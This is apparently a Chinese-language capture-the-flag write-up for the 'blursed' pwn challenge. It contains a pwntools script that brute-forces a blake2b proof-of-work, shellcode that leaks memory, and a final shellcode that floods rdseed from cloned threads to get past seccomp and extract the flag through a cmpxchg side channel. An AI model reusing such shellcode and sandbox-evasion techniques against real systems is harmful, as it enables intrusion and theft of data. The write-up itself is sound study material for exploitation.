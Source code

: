 # blursed
输出一个随机生成的0x10字节字符串，然后输入0x30字节的数据，二者在栈上是连续的。
![avatar](https://github.com/YmColdQiu/blursed-write-up/tree/main/pic/pow1.png)
共计0x40字节的数据放入`sub_43E2D0`中处理；在sub_43FAA0中看到一些常数，搜索得到两个结果`Sha512`和`blake2b`，两个算法使用同样的初始值；因为hash值的长度可自行设置，故为`blake2b`算法。
![avatar](https://github.com/YmColdQiu/blursed-write-up/tree/main/pic/hash.png)
对哈希后的结果进行判断，只有在前三个字节都为0时才可以继续执行。
```python
from pwn import *
from hashlib import blake2b, sha512
import itertools

p = process("./cursed")
context.arch = "amd64"

def pow():
    randstr = p.recv()
    for i in itertools.permutations(range(256),48):
        msg = "".join([chr(x) for x in i])
        data = randstr + msg.encode('latin')
        hsh = blake2b(data, digest_size=0x10).digest()
        if hsh[0] | hsh[1] | hsh[2] == 0:
            print(hsh)
            break
    p.send(msg.encode("latin"))
        
pow()
p.interactive()
```
接下来，用mmap分配大小0x1000为的RWX页面，然后使用clone函数启动子进程。子进程将`flag`读入一个128字节的缓冲区中，空余字节填充为\x01；然后将`bozo.bin`作为可执行代码映射到内存；将全局变量`byte_0x664f60`设置为1，然后将flag，和之前分配的RWX页面作为参数调用`bozo.bin`

主进程将会向之前分配的RWX页面中读入一个长度为0x1000字节的数据作为shellcode，然后等待`byte_0x664f60`设置为1。尝试直接getshell失败
```python
>>> pwn.asm(pwn.shellcraft.execve("/bin/bash"))
b'jhH\xb8/bin/basPH\x89\xe71\xd21\xf6j;X\x0f\x05'
```
```x86asm
   0x7f6eb7193011                  shl    BYTE PTR [rcx], cl
   0x7f6eb7193013                  imul   BYTE PTR [rdx+0x3b]
   0x7f6eb7193016                  pop    rax
 → 0x7f6eb7193017                  syscall 
   0x7f6eb7193019                  ret    
   0x7f6eb719301a                  ret    
   0x7f6eb719301b                  ret    
   0x7f6eb719301c                  ret    
   0x7f6eb719301d                  ret    
────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "cursed", stopped 0x7f6eb7193017 in ?? (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f6eb7193017 → syscall 
───────────────────────────────────────────────────────────────────────────────
gef➤  

Program terminated with signal SIGSYS, Bad system call.
The program no longer exists.
gef➤  

```

查看字符串可以看到seccomp字样，查找交叉引用找到开启seccomp的位置为`sub_4300D0`，写入一个死循环的shellcode让程序可以不退出
```python
>>> pwn.asm("start:mov rax,1;jmp start")
b'H\xc7\xc0\x01\x00\x00\x00\xeb\xf7'
```
使用`seccomp-tools`查看规则
![avatar](https://github.com/YmColdQiu/blursed-write-up/tree/main/pic/seccomp.png)

首先，需要leak出`bozo.bin`从而了解其如何处理flag以及shellcode。由于mmap通常会从高到低分配连续的空间，所以bozo.bin的分配的空间会在RWX页的前面
```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/ymcold/cursed
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/ymcold/cursed
0x0000000000402000 0x0000000000407000 0x0000000000002000 --- /home/ymcold/cursed
0x0000000000407000 0x000000000040a000 0x0000000000007000 r-x /home/ymcold/cursed
0x000000000040a000 0x0000000000655000 0x000000000000a000 --- /home/ymcold/cursed
0x0000000000656000 0x0000000000662000 0x0000000000255000 r-- /home/ymcold/cursed
0x0000000000662000 0x0000000000665000 0x0000000000261000 rw- /home/ymcold/cursed
0x0000000000665000 0x000000000066f000 0x0000000000000000 rw- 
0x00000000012f4000 0x0000000001317000 0x0000000000000000 rw- [heap]
0x00007f4aadc52000 0x00007f4aadc53000 0x0000000000000000 r-x /home/ymcold/bozo.bin
0x00007f4aadc53000 0x00007f4aadc54000 0x0000000000000000 rwx 
0x00007ffca58f8000 0x00007ffca5919000 0x0000000000000000 rw- [stack]
0x00007ffca597b000 0x00007ffca597f000 0x0000000000000000 r-- [vvar]
0x00007ffca597f000 0x00007ffca5981000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
因此leak`bozo.bin`是很轻松的
```x86asm
call start
start:
    pop rsi
    sub rsi, 0x1005
    mov rdi,1
    mov rdx,0x1000
    mov rax,1
    syscall
```

由于此题缺少远程环境，并且未找到bozo.bin的二进制文件，所以在之后的流程只能通过网上现有的write-up了解。

在bozo.bin 的流程如下
- 将flag加载到`xmm0-xmm7`,然后设置rbx为`shellcode_addr+0xff8`位置
- 使用shellcode填充原本flag的位置
- 执行128段相似的代码块
```x86asm
; rbx == [input+0xff8]
loc_3E: ; first block
xor     r8, r8
pextrb  eax, xmm7, 0Fh  ; load the a flag byte into al
; different blocks fetch different bytes
cmpxchg [rbx], r8       ; if al == [rbx]:
                        ;   [rbx] = r8
                        ;   break since ZF=0
                        ; else:
                        ;   al = [rbx]
pause
jnz     short loc_3E
call    sub_BE8
```
代码块会从`xmm`寄存器中读取一个字节并和`rbx`中的值进行比较；如果相等则会将`rbx`中的值设置为0，否则进行循环。
思路是将`input+0xff8`中的值遍历`1-255`，然后看是否该值被设置为0；如果为0，则为正确的flag，否则继续循环。

然而问题在于每次执行完一个小的代码块，都会执行一次`sub_BE8`
```x86asm
 sub_BE8         proc near
     mov     rcx, 8
 loc_BEF:
         xor     rax, rax
         rdseed  rax
         and     rax, 0FFFh ; rax = rand([0:0xfff])
         mov     dword ptr [rsi+rax], 0FFFFFFFFh
         ; write to shellcode randomly
         dec     rcx
         cmp     rcx, 0
         jg      short loc_BEF
     retn
 sub_BE8         endp
```
该代码会随机的使用`0xffffffff`填充在我们的shellcode位置，使shellcode无法继续执行。

解决问题的关键在于rdseed指令。
![avatar](https://github.com/YmColdQiu/blursed-write-up/tree/main/pic/rdseed.png)
该指令在被大量执行时，会发生错误，如果错误则会固定返回0；那么`sub_BE8`就不会将`0xffffffff`写入到我们的shellcode上了

`seccomp`规则中提供了`clone`函数，可以使用该函数开启多个子进程反复调用`rdseed`指令，使其执行失败，从而完成对`flag`的遍历。

具体的shellcode 如下
```x86asm
call next
next: pop rbx

mov rbp, %s ; parameterize number of threads
clones:
	mov rdi,0x18900 
	; use the same flag as that of bozo.bin thread
	mov rsi,rsp
	sub rsi,0x2000
	; stack is rsp-0x2000, although not used
	mov rax,SYS_clone
	syscall ; call clone
	test rax, rax
	jz rdseed_loop 
	; let child thread execute the rdseed loop
	dec rbp
	test rbp,rbp
jnz clones

add rbx, -5+0xff8 ; rbx = RWX+0xff8
mov rsi, rbx
sub rsi, 8 ; rsi = buffer for SYS_write
mov rax, SYS_write
mov rdi, 1 ; fd = stdout
mov rdx, 1 ; size = 1
; load the needed arguement into register first
; to reduce size of the loop
; therefore the crack_loop is less likely to be destructed

mov rcx,0x100
wait0: loop wait0
; wait for a while to ensure threads are started
; maybe it is not needed

crack_loop:
	mov r8,1 ; i = 1
	byte_loop:
		mov qword ptr [rbx], r8 ; [rbx] = i
		mov rcx,%s
		wait: loop wait ; wait
		; the rcx, number of times, is parameterized
		cmp qword ptr [rbx], 0
		jnz byte_loop_end ; if [rbx] == 0
		mov [rsi], r8
		syscall ; print i
		jmp crack_loop ; break, try next byte
		byte_loop_end:
		inc r8 ; if [rbx] != 0, increment i and try next value
		cmp r8, 0xff
		jbe byte_loop
jmp crack_loop

rdseed_loop:
rdseed rax
jmp rdseed_loop
```
